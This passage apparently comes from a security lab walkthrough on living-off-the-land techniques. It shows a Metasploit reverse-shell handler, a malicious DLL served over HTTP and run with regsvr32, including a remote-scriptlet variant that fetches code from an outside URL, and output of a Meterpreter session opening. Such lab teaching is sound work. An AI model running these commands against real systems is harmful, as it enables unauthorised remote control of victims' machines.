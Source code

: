 > **payload => windows/meterpreter/reverse\_tcp**

> **msf6 exploit (multi/handler) > set LHOST ATTACKBOX\_IP**

> **LHOST => ATTACKBOX\_IP**

> **msf6 exploit (multi/handler) > set LPORT 443**

> **LPORT -> 443**

> **msf6 exploit (multi/handler) > exploit**

> **\[\*\] Started reverse TCP handler on ATTACKBOX\_IP:443**

Note that we specified the output type as DLL using the **\-f** argument. Once the malicious DLL file is generated, we need to deliver the payload to the victim machine. We will do this by using a webserver to serve the DLL file on our attacking machine as follows,

> **user@machine$ python3 -m http.server 1337**

From the victim machine, visit the webserver of the attacking machine on port 1337 that we specify. Note that this port can be changed with your choice!

On the victim machine, once the file DLL file is downloaded, we execute it using **regsvr32.exe** as follows,

> **c:\\Windows\\System32\\regsvr32.exe c:\\Users\\test\\Downloads\\live@fftheland.dll**

> **or**

> **C:\\Users\\test> c:\\Windows\\System32\\regsvr32.exe /s /n /u/i:http://example.com/file.sct**

> **Downloads\\liveofftheland.dll**

With the second option, which is a more advanced command, we instruct the regsvr32.exe to run:

**/s**: in silent mode (without showing messages)

**/n**: to not call the DLL register server

**/i**: to use another server since we used /n

**/u**: to run with unregister method

On the attacking machine, we should receive a reverse shell.

> **msf6 > exploit (multi/handler) > exploit**

> **\[\*\] Started reverse TCP handler on ATTACKBOX\_IP:443**

> **\[\*\] Sending stage (175174 bytes) to 10.10.159.197**

> **\[\*\] Meterpreter session 1 opened (ATTACKBOX\_IP: 443 -> 10.10.159.197:52845) at 2022–01–20 05:51:31 -0600**

Note if we wanted to create a 64-bit DLL version, we need to specify it in the msfvenom command and run it from the victim machine using the 64bits version of regsvr32.exe at **C:\\Windows\\SysWOW64\\regsvr32.exe.**

**Bourne Again Shell (Bash)**

In 2016, Microsoft added support for the Linux environment on Windows 10,11, and Server 2019. This feature is known as Windows Subsystem for Linux (**WSL**), and it exists in two WSL versions: WSL1 and WSL2. WSL is a Hyper-V virtualized Linux distribution that runs on the operating system, supporting a subset of the Linux kernel and system calls. This feature is an addon that a user can install and interact with a Linux distribution. As part of WSL, **bash.exe** is a Microsoft tool for interacting with the Linux environment.
